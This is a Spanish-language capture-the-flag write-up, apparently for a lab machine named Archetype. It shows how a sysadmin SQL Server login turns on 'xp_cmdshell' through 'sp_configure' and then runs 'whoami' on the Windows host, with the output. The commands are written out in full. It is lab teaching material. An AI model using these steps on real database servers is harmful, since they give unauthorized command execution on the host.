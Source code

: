 El cual nos da como salida un valor numérico de `1` el cual representa que el
la sesión iniciada es miembro del rol solicitado, osea, tenemos permisos de
`sysadmin` en el `SQL Server`.

Como tenemos permisos de administrador podemos utilizar algunas herramientas de
configuración del servidor `SQL` para habilitar una conexión remota.

Para esto podemos utilizar [sp_configure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql?view=sql-server-ver15)
el cual nos permite modificar configuraciones globales del servidor.

Su sintaxis es la siguiente:

```sql
sp_configure [ @configname= ] 'hadoop connectivity',
             [ @configvalue = ] 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7
```

Como podemos ver toma dos parámetros, el nombre de la configuración y su valor.
El valor depende directamente de la configuración que estamos modificando. Una
vez que hemos cambiado alguna configuración es necesario utilizar `reconfigure;`
para que se apliquen los cambios.

Si ejecutamos `sp_configure;` podemos ver una lista de configuraciones
disponibles, sin embargo estamos buscando una que nos permita habilitar una
conexión remota. Para esto habilitaremos que se muestren las opciones avanzadas.

```sql
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
```

Al habilitar que nos muestre las opciones avanzadas podremos ver que hay una
configuración llamada [xp_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15)
la cual nos permite invocar una terminal de comandos de Windows y enviarle una
cadena a ejecutar.

```sql
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
```

Ya habilitamos la configuración para utilizar `xp_cmdshell`, podemos verificar
los permisos o alcance de nuestra cuenta dentro de `Windows` utilizando el
comando `whoami`.

```sql
xp_cmdshell "whoami"
```

Su salida es:

```sql
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               
```
